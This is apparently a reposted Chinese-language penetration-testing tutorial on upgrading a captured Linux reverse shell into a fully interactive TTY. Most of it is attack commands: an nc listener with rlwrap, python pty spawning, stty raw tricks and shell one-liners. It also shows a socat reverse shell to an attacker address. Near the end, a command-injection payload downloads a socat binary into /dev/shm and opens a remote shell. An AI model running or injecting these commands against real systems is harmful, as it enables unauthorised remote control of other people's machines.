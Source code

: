 # [Linux 反向 shell 升级为完全可用的 TTY shell](https://www.cnblogs.com/sainet/p/15783539.html)

## 升级远程 shell（仅限 Unix 机器）

通常，在通过 nc 捕获 shell 之后，会在一个功能非常有限的 shell 中。例如没有命令历史记录（并使用向上“”和“向下”箭头循环浏览它们）和文件名称、命令自动完成等。在缺少这些功能的 shell 中查询或操作会比较麻烦。

**注意**：要检查 shell 是否是 TTY shell，请使用 `tty` 命令。

#### rlwrap

可以通过使用 rlwrap 命令包装 nc 侦听器来减轻对 shell 的一些限制。默认情况下不会安装它，需要使用 `sudo apt rlwrap` 或 `apt-get install rlwrap` 安装。

```bash
rlwrap nc -lvnp $port
```

#### 使用 Python 升级到完全交互式 shell：

1. 首先连接到 shell 后，先检查一下 python 的可用性， 用 winch 命令检查：

```bash
which python python2 python3
```

只要安装了其中任何一个，就将返回已安装二进制文件的路径。

1. 在靶机上输入以下命令（使用机器上可用的 python 版本！）

```rust
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

1. 接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```bash
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

1. 键入 ctrl-z 以将 shell 发送到后台。
2. 设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作。

```bash
stty raw -echo;fg
```

回车一次后输入 reset 再回车将再次进入 shell 中：

![image](https://img2020.cnblogs.com/blog/1282531/202201/1282531-20220110102654230-1851709271.png)

到此 TTY shell 升级完成。

#### 其他语言写入交互式 shell：

```bash
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

#### 使用 socat

另一种方法是将 socat 二进制文件上传到靶机并获得一个完全交互式的 shell。从 https://github.com/andrew-d/static-binaries 下载适当的二进制文件。Socat 需要在两台机器上才能工作。

```bash
#在本地监听：:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#靶机:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果在命令注入的地方注入反弹 shell，获得即时完全交互式的反向 shell：

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果靶机访问不了互联网，就先把 socat 文件下载下来，开启 http 服务，然后将上面的路径指向你的本地地址。